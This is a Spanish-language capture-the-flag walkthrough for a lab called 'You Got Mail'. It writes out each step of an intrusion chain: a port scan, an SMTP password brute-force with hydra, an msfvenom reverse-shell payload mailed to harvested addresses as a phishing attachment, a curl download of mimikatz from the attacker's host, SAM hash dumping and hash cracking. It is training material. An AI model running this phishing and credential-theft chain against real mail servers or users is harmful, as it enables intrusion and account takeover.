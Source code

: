 # You Got Mail

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado varios puertos abiertos en el sistema: el puerto `25` para `SMTP` y los puertos `HTTP`, que son los más importantes para nosotros.

<figure><img src="../.gitbook/assets/YouGotMail/nmap.png" alt=""><figcaption></figcaption></figure>

Accedemos a la página proporcionada al inicio del laboratorio, `https://brownbrick.co/`, y en el directorio `/menu.html` encontramos los correos de los usuarios. Los anotamos para utilizarlos más adelante.

<figure><img src="../.gitbook/assets/YouGotMail/users.png" alt=""><figcaption></figcaption></figure>

```
oaurelius@brownbrick.co
tchikondi@brownbrick.co
wrohit@brownbrick.co
pcathrine@brownbrick.co
lhedvig@brownbrick.co
fstamatis@brownbrick.co
```

Podemos realizar una búsqueda e identificación de todas las palabras presentes en la web para convertirlas en contraseñas que podemos utilizar para verificar su uso en los correos que recolectamos anteriormente. Aunque la web indica que debemos emplear un reconocimiento estrictamente pasivo, este método no lo es; lo utilizamos únicamente para acelerar el proceso de recolección de datos.

```
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Ahora utilizamos `hydra` para probar todos los usuarios y contraseñas que recolectamos anteriormente.

```
hydra -L emails.txt -P passwords.txt <ip> smtp -s 578 -t 8
```

Recuerda ajustar los parámetros según tus necesidades y los recursos que tengas disponibles, ya que el proceso puede tardar dependiendo de la cantidad de datos recolectados.

<figure><img src="../.gitbook/assets/YouGotMail/hydra.png" alt=""><figcaption></figcaption></figure>

Ahora, con un correo y una contraseña, podemos acceder al servicio de `SMTP` y enviar correos de `phishing`. Para ello, primero necesitamos crear un `payload` utilizando `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe
```

Obtendremos un archivo llamado `shell.exe`, el cual necesitamos enviar a todos los correos que recolectamos anteriormente, de esta manera podremos acceder al sistema.

Para enviar los correos, podemos utilizar el siguiente código:

```
xargs -I {} swaks --to "{}" --from "lhedvig@brownbrick.co" --header "Subject: Important documents" \
--body "see attached file" --attach-type application/octet-stream --attach @shell.exe \
--server ygm.thm --port 25 --timeout 20s --auth LOGIN \
--auth-user lhedvig@brownbrick.co --auth-password REDACTED < emails.txt
```

>*Nota: También puedes utilizar una aplicación de correo electrónico; solo necesitas configurarla para redirigir los mensajes a la IP del laboratorio y al puerto correspondiente. Una vez conectado, podrás crear correos más profesionales y auténticos.*

Iniciamos nuestro oyente y, después de un tiempo, obtendremos nuestra primera shell.

<figure><img src="../.gitbook/assets/YouGotMail/whoami.png" alt=""><figcaption></figcaption></figure>

# \wrohit

Como el usuario `wrohiy`, tenemos nuestra primera bandera en `\Desktop`. 

Para obtener la contraseña, debemos utilizar `mimikatz` para la enumeración, así que lo descargamos en la máquina víctima.


```
curl http://<ip>:<port>/mimikatz.exe -o mimikatz.ex
```

Y simplemente lo ejecutamos con unas opciones específicas que son:

```
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

Debería proporcionarnos una salida extensa, pero solo necesitamos buscar el nombre `wrohit`, donde encontraremos un hash `NTLM`.

<figure><img src="../.gitbook/assets/YouGotMail/pass.png" alt=""><figcaption></figcaption></figure>

Podemos enviar este `hash` a un sitio web para descifrarlo, como el siguiente:

{% embed url="https://crackstation.net/" %}

Esto debería proporcionarte la contraseña. Además, también podrías utilizar `hashcat`, que tarda un poco más, pero es un buen ejercicio para no depender de otras herramientas.

```
hashcat -a0 -m1000 'HASHNTLM' /usr/share/wordlists/rockyou.txt --show
```

>*Nota: Es importante tener en cuenta que las herramientas en línea pueden contar con un catálogo o una base de datos más extensa que las locales.*

# \hMail

Descubrir la contraseña de `hMail` fue tan sencillo como revisar los datos locales del servicio, que encontramos en:

```
C:\Program Files (x86)\hMailServer\Bin\
```

En el archivo `hMailServer.INI` podemos encontrar el hash en `MD5` del servicio al que necesitamos acceder.

```
type hMailServer.INI
```

Dado que está en `MD5`, es más fácil descifrar la contraseña. Para ello, podemos utilizar la misma web de antes o hacerlo con `hashcat`.

{% embed url="https://crackstation.net/" %}

```
hashcat -a0 --m0 'HASHMD5' /usr/share/wordlists/rockyou.txtx --show
```

------------

>*Quiero hablar de todo con al menos una persona de la misma manera en que hablo conmigo mismo* 
>~ Dostoievski
>
>El ser humano alberga en su interior una multitud de voces, pero rara vez encuentra a alguien capaz de escuchar esa confusión sin emitir juicios. Vivimos rodeados de conocidos, pero en lo esencial, todos hablan de banalidades, mientras que pocos pueden soportar la desnudez de una confesión sincera. 
>
>No es el silencio lo que mata, sino la imposibilidad de ser completo ante otra persona. La verdadera amistad o amor no surge de lo que mostramos como hermoso, sino del coraje de abrir las profundidades del alma y seguir estando juntos.

><figure><img src="../.gitbook/assets/YouGotMail/touthou.png" alt=""><figcaption></figcaption></figure>